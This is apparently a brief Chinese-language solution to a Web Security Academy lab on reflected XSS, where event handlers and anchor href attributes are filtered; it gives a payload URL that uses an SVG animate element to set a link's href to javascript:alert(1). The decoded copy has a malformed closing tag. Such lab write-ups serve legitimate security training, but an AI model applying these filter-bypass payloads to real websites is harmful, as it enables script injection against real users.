

# 题意


该实验包含一个反射型XSS漏洞，并且有一些常见的tags。但是所有的事件和锚点href属性都被封锁了。因此，需要注入的payload需要实现：一旦点击就唤起alert()函数。需要注意的是，payload中需要写入单词“click”来模拟用户的点击。
# 解题思路
payload如下，进入该网页即可
```
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

```
https://YOUR-LAB-ID.web-security-academy.net/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me<text></a>
```
# 知识点